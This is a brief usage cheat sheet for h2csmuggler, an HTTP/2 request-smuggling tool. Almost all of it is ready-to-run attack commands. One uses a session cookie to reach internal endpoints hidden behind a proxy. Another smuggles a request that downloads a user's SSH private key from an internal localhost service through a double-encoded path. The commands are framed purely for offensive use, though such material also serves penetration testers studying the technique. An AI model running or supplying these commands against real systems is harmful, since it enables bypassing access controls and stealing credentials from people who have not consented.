 # h2csmuggler

## Link: https://github.com/BishopFox/h2csmuggler

### Usage:

### This tool is used for HTTP Request smuggling. Here are a few examples:

#### 1) By using a cookie session, preferably elevated privileges, we can craft requests to access internal resources from a web application that are hidden behind a proxy, AKA HTTP Request Smuggling

    python3 h2csmuggler.py -H "Cookie: session=SESSION_COOKIE" -X "HTTP_METHOD" -x http://TARGET_SERVER.COM http://TARGET_SERVER.COM/TARGET_ENDPOINT 

#### 2) Download the ssh private key via request smuggling

    python3 h2csmuggler.py -H "Cookie: session=SESSION_COOKIE" -X "GET" -x http://TARGET_SERVER.COM http://TARGET_SERVER.COM/download?url=http://127.0.0.1:3923/.cpr/%252Fhome%252FUSER%252F.ssh%252Fid_ecdsa 
   
